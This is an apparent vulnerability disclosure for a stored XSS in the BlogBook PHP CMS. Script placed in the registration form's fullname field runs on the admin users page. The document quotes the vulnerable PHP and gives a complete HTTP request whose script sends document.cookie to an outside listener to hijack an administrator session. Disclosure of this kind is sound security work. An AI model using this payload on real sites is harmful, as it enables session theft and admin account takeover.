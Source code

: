 # BlogBook Stored XSS in User Registration via fullname Parameter Leading to Admin Account Takeover

**Exploit Title: BlogBook Stored XSS in User Registration via fullname Parameter Leading to Admin Account Takeover**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A stored Cross-Site Scripting (XSS) vulnerability exists in the BlogBook application, exploitable through the user registration process and triggered within the admin panel. The application fails to adequately sanitize user-supplied input for the fullname parameter during new user account creation. Consequently, an attacker can register an account with malicious JavaScript code embedded in their fullname field. This malicious script is then stored in the application's database (as user_firstname).

The XSS payload is executed when an administrator or any privileged user navigates to the /admin/users.php page, which displays a list of registered users including their first names. The unsanitized user_firstname (containing the attacker's payload) is rendered directly on this page, causing the script to run in the administrator's browser.

This vulnerability was successfully exploited to steal session cookies (e.g., PHPSESSID) from an administrator viewing the /admin/users.php page. With the stolen administrator session cookie, an attacker can hijack the administrator's session, gaining full administrative control over the BlogBook application. This allows for unauthorized data access, modification, user impersonation, and potentially further system compromise.

## Vulnerability Point

`blogbook-main/register_script.php:7`

## Vulnerable Parameter

`fullname`

## Vulnerable Code

```php
<?php
include "includes/db.php";

$username = $_POST['username'];
$email = $_POST['email'];
$password = $_POST['password'];
$fullname = $_POST['fullname'];

$username = mysqli_real_escape_string($connection, $username);
$email = mysqli_real_escape_string($connection, $email);
$password = mysqli_real_escape_string($connection, $password);
$fullname = mysqli_real_escape_string($connection, $fullname);

$password = base64_encode($password);

$response['status'] = 'error';
$response['msg'] = 'Error';

$check_user_sql = "SELECT username FROM users WHERE username='$username'";
$check_user_query = mysqli_query($connection, $check_user_sql);

// check if user already exists
if ($check_user_query->num_rows) {
    $response['status'] = 'error';
    $response['msg'] = 'Username already exists!';
} else {
    $query = "INSERT INTO users(user_firstname,username,user_email,user_password,user_role) ";
    $query .= "VALUES('{$fullname}','{$username}','{$email}','{$password}','new')";
    $register_user_query = mysqli_query($connection, $query);

    if ($register_user_query) {
        $response['status'] = 'success';
        $response['msg'] = 'Registered Successfully! We will contact you soon!';
    } else {
        $response['status'] = 'error';
        $response['msg'] = 'Error occured. Please try again later!';
    }
}

// send responnse as json data
echo json_encode($response);
exit;
```
## Payload

```
POST /register_script.php HTTP/1.1
Host: localhost
Content-Length: 227
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: */*
sec-ch-ua: "Chromium";v="136", "Microsoft Edge";v="136", "Not.A/Brand";v="99"
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua-mobile: ?0
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=exec2&email=2@2.com&password=123&fullname=<script>
++var+img+%3d+new+Image()%3b
++var+cookieData+%3d+document.cookie%3b
++img.src+%3d+"http%3a//localhost%3a8000/%3fc%3d"+%2b+cookieData%3b
</script>&create_comment=1
```

![image-20250523113918911](./assets/image-20250523113918911.png)

![image-20250523113942569](./assets/image-20250523114031771.png)

![image-20250523113942569](./assets/image-20250523113942569.png)
